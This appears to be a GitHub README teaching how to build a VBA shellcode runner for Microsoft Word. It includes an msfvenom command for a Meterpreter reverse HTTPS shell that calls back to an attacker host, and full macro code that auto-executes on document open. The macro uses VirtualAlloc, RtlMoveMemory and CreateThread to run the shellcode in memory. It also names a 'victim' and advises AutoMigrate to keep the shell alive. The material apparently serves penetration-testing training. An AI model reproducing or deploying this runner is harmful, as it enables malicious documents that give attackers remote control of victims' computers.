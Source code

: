 # VBA-Shellcode-Runner:

Calling Win32 APIs from VBA:

Windows operating system APIs (or Win32 APIs) are located in dynamic link libraries and run as unmanaged code. We'll use the Declare1 keyword to link to these APIs in VBA, providing the name of the function, the DLL it resides in, the argument types, and return value types. We will use a Private Declare, meaning that this function will only be used in our local code.
The typical approach is to use three Win32 APIs from Kernel32.dll: VirtualAlloc, RtlMoveMemory, and CreateThread. For function prototype we can refer https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex


We will use VirtualAlloc to allocate unmanaged memory that is writable, readable, and executable. We'll then copy the shellcode into the newly allocated memory with RtlMoveMemory, and create a new execution thread in the process through CreateThread to execute the shellcode. 

Allocating memory through other Win32 APIs returns non-executable memory due to the memory protection called Data Execution Prevention (DEP)

In order to generate the shellcode, we need to know the target architecture. Obviously we are targeting a 64-bit Windows machine, but Microsoft Word 2016 installs as 32-bit by default, so we will generate 32-bit shellcode.

    msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f vbapplication 
  
  (Since we will be executing our shellcode inside the Word application, we specify the EXITFUNC with a value of "thread" instead of the default value of "process" to avoid closing Microsoft Word when the shellcode exits.)


In summary, we begin by declaring functions for the three Win32 APIs. Then we declare five variables, including a variable for our Meterpreter array and use VirtualAlloc to create some space for our shellcode. Next, we use RtlMoveMemory to put our code in memory with the help of a For loop. Finally, we use CreateThread to execute our shellcode. When executed, our shellcode runner calls back to the Meterpreter listener and opens the reverse shell as expected, entirely in memory.

To work as expected, this requires a matching 32-bit multi/handler in Metasploit with the EXITFUNC set to "thread" and matching IP and port number.

the primary disadvantage is that when the victim closes Word, our shell will die. so we need to incorporate Process Injection/Migration techniques. Metasploit's AutoMigrate module solves this. 

Code: 

      Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
      
      Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
      
      Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
      
      Function MyMacro()
          Dim buf As Variant
          Dim addr As LongPtr
          Dim counter As Long
          Dim data As Long
          Dim res As Long
          
          buf = Array(msfvenom generated vba shell code)
      
          addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
          
          For counter = LBound(buf) To UBound(buf)
              data = buf(counter)
              res = RtlMoveMemory(addr + counter, data, 1)
          Next counter
          
          res = CreateThread(0, 0, addr, 0, 0, 0)
      End Function 
      
      Sub Document_Open()
          MyMacro
      End Sub
      
      Sub AutoOpen()
          MyMacro
      End Sub

